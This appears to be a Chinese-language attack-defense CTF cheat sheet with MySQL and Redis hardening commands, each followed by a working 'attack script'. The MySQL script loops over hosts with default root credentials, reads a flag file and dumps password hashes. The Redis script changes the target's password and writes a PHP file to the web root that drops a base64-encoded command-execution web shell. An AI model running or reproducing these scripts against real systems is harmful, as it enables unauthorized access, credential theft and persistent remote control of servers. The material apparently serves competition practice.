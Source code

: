 ```mysql
updates mysql.user set password=password("密码") where user="root";       #修改账号密码 
flush privileges; #修改完刷新缓存 
```

攻击脚本

```shell
user=root
pass=root
for i in `cat host.txt`
do
echo ip=$i
date
cmd=`mysql -h$i -u$user -p$pass 2>/dev/null << EOF
select load_file('C:\flag.txt');
select user,password from mysql.user;
exit
EOF`
echo $cmd
done

```



## Redis

```shell
修改账号密码 防止未授权
config set requirepass 密码
```

攻击脚本

```shell
pass=123456
for i in `cat host.txt`
do
`redis-cli -h $i -p6379 -a $pass 2/dev/null <<EOF
config set requirepass aaaaaa
config set dir /var/www/html
config set dbfilename a.php
set 1 "<?php fwrite(fopen('x.php','w'),base64_decode('PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4K'));?>"
save
quit
EOF`
done
```
